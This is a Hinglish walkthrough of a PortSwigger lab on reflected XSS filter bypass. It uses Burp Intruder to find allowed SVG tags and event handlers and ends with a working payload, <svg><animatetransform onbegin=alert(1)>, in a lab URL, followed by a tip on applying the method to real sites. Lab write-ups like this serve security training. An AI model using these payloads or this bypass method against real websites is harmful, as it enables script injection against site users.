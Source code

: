 # Reflected XSS with some SVG markup allowed

Reflected XSS attack karna hai lekin normal tags (```<script>, <img>``` etc.) block ho rahe hain. Sirf kuch SVG (Scalable Vector Graphics) tags jaise ```<svg>, <title>, <image>```, ```<animatetransform>``` aur kuch SVG event handlers jaise onbegin allow hain.

---

### ✅ Goal:

Browser mein alert(1) chalana hai using SVG-based XSS payload.

---

🔧 Steps – A to Z:

Step 1: Normal payload test karo

```<img src=1 onerror=alert(1)>```

Result: Block ho gaya

---

Step 2: Burp Intruder ka use karo to find allowed tags

1. Lab open karo Burp browser mein

2. Search box mein kuch bhi likho, jaise abc, aur request ko Burp Intruder mein send karo.

3. Intruder mein search=abc ko replace karo:

```search=<§§>```

4. XSS Cheat Sheet se tags copy karo: 👉
 https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

5. Intruder → Payloads tab → Paste tags → Start attack

Result dekho: Sab 400 response dete hain except:

```<svg>, <title>, <image>, <animatetransform>```

---

Step 3: Ab attributes test karo

1. Payload banayo:

```<svg><animatetransform%20§§=1>```

Yahan ```%20``` = space hai

2. Ab Intruder mein event handlers test karo from XSS Cheat Sheet:

onload, onerror, onmouseover, etc.

Paste karo aur Start Attack

Result: Sirf onbegin pe response 200 aya

---

✅ Final Payload:

```<svg><animatetransform onbegin=alert(1)>```

But URL encode karo (jaise browser ke liye):

```%22%3E<svg><animatetransform%20onbegin=alert(1)>```

So, final URL:

```https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E<svg><animatetransform%20onbegin=alert(1)>```

Open karo → alert() chalega → Lab Solved! ✅

---

📌 Real-world Penetration Testing Tip:

Agar koi website <script> block kar rahi hai, SVG tags aur uncommon attributes/events ka use karo. Bypasses mil sakte hain. Burp Intruder se brute-force style mein find kar sakte ho kya allowed hai.

